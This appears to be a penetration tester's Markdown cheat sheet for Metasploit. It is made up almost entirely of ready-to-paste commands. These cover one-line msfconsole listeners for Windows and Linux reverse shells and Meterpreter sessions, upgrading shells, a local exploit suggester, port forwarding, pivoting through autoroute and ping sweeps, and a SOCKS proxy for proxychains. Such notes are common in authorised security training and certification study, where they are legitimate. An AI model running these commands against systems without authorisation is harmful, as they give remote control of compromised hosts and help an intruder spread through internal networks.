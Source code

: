 #### Starting metasploit
```
sudo msfdb run
```
#### Upgrade to meterpreter shell
Background shell with CTRL+Z
```
use post/multi/manage/shell_to_meterpreter
```
```
set SESSION 1
```
```
run
```
```
sessions -i 2
```
#### Windows reverse exe
[[1._Reverse Shells (WIN)#MSFVenom]]
#### Meterpreter Listener 1 Liner
HTTP Stageless:
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_http;set LHOST $KALI;set LPORT 443;run"
```
HTTP Staged:
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_http;set LHOST $KALI;set LPORT 443;run"
```
HTTPS Stageless:
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_https;set LHOST $KALI;set LPORT 443;run"
```
HTTPS Staged:
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST $KALI;set LPORT 443;run"
```
Windows 64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Windows 86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Linux 64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload linux/x64/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Linux 86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload linux/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
#### Non-Meterpreter Listener 1 Liner
Windows 64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Windows 86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Linux 64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload linux/x64/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Linux 86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload linux/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
#### Local Exploit Suggester
```meterpreter - kali
run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```
```metereprter - kali
set verbose true
```
```metereprter - kali
set exitonsession false
```
#### Port Forward
```meterperter - kali
portfwd add -l 80 -p 80 -r $TARGET
```
#### Pivoting
```
background
```
```
use post/multi/manage/autoroute
```
set subnet to the new found subnet:
```
set SUBNET x.x.x.x
```
```
set SESSION 2
```
```
exploit
```
```
use post/multi/gather/ping_sweep
```
```
set rhosts x.x.x.0/24
```
```
set session 1
```
```
run
```
To use proxychains and other tools:
```
background
```
```
use auxiliary/server/socks_proxy
```
```
run
```
```
sudo mousepad /etc/proxychains.conf
```
#### Post exploit modules
https://www.offsec.com/metasploit-unleashed/post-module-reference/